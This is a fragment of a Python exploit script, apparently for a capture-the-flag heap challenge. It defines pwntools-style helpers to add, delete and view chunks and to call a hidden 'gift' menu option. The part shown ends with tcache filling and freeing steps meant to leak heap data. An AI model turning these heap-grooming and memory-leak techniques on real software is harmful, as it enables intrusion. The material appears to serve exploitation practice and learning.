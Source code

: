 ```python
    ru(b">>> ")
    sl(b"1")
    ru(b"[?] please input chunk_idx: ")
    sl(str(index).encode())
    ru(b"[?] Enter chunk size: ")
    sl(b"-1")
    return rl()
def add(index,size,content):
    ru(b">>> ")
    sl(b"1")
    ru(b"[?] please input chunk_idx: ")
    sl(str(index).encode())
    ru(b"[?] Enter chunk size: ")
    sl(str(size).encode())
    ru(b"[?] Enter chunk data: ")
    sd(content)
    print(f"----------\n添加index为:{index}的chunk\n----------")
def delete(index):
    ru(b">>> ")
    sl(b"2")
    ru(b"[?] Enter chunk id: ")
    sl(str(index).encode())
    print(f"----------\n删除index为{index}的chunk\n----------")
def view(index):
    ru(b">>> ")
    sl(b"3")
    ru(b"[?] Enter chunk id: ")
    sl(str(index).encode())
    res = rc(0x68)
    return res
def gift():
    ru(b">>> ")
    sl(b"114514")
    return (ru(b"\n"))
def getData(bytes):
    data = []
    for i in  range(int(len(bytes)/8)):
        try:
            data.append(u64(bytes[i*8:(i+1)*8]))
        except:
            print("非预期数据")
    return data
def rol(value):
    # 模拟 64 位无符号整数
    mask = 0xFFFFFFFFFFFFFFFF
    return ((value << 0x11) | (value >> (64 - 0x11))) & mask
def remove_high_digits(hex_num, desired_length):
    hex_str = hex(hex_num)[2:]  # 将十六进制数字转换为字符串，并去掉开头的"0x"
    if len(hex_str) <= desired_length:
        return int(hex_str,16)  # 如果字符串长度小于等于所需长度，直接返回
    else:
        return int(hex_str[-desired_length:],16)  # 否则，返回去掉最高位后的字符串
# 泄露出chunk
for i in range(7):
    add(i,128,b"a"*8)
for i in range(7,10):
    add(i,128,b"a"*8)
for i in range(9):
    delete(i)

for i in range(7):
    add(i,128,b"\x00")
add(7,128,b"\x00")
```